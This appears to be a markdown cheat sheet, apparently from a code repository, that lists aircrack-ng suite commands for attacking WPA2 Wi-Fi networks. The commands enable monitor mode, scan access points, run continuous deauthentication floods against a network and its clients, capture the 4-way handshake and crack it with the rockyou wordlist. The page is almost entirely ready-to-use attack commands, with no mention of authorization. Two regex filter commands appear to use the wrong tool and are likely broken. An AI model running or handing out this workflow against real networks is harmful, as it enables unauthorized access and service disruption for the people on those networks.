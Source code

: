 
### prep interface

```airmon-ng check kill```

```sudo airmon-ng start wlan0```

* now our monitor interface will be wlan0mon

----

### scanning BSSID's near-by

AiroDump ALL in channels 1-165 and ignoring negative one.

```airodump-ng -c 1-165 wlan0mon --ignore-negative-one```


Or to filter and display ONLY the BSSID (MAC Address once known), try the below.

```sudo airodump-ng wlan0mon -d xx:xx:xx:xx:xx:xx```


Filter and exclude ESSID with regex

```sudo airmon-ng -R '^(?!.*WIFINAME1)' -c 6 wlan0mon```

Filter and exclude multiple ESSIDs with regex

```sudo airmon-ng -R '^(?!.*WIFINAME1)^(?!.*WIFINAME2)' -c 6 wlan0mon```

----

### de-auth BSSID 

Basic BSSID de-auth continiously

```aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan0mon```


de-auth a wireless client specific to ESSID continiously. More successful when using client paramter. 

```aireplay-ng --deauth 0 wlan0mon -a xx:xx:xx:xx:xx:xx -e ESSID_WIFI_NAME -c xx:xx:xx:xx:xx:xx```

the above -a is the BSSID (MAC of WIFI AP), -c is the client mac address (i.e. phone, device) connecting to the wifi.


----

### Capture to file (4 way handshake)

"<i>-c X</i>". This should be the channel of the BSSID we wish to target after "-c".
-w will output the capture to the filename in this example as "wifi-capture".

```airodump-ng -w wifi-capture -c X --bssid xx:xx:xx:xx:xx:xx wlan0mon```

----

### Cracking the handshake capture

The example below uses the capture file example of "wifi-capture" and the ".cap" file.

This then uses aircrack-ng to process the capture file using the "rockyou.txt" wordlist.

*Note there are other wordlists you could use, but the rockyou wordlist is quite popular and good.

```aircrack-ng wifi-capture.cap -w /usr/share/wordlists/rockyou.txt```

----

David Bombal has some videos showing further how this works. Links below.

[Cracking WiFi WPA2 Handshake](https://www.youtube.com/watch?v=WfYxrLaqlN8)

Paul from TallPaulTech (CWNE88) also explains the "4 way handshake" in this [video](https://www.youtube.com/watch?v=vHIRmG_BzQI)
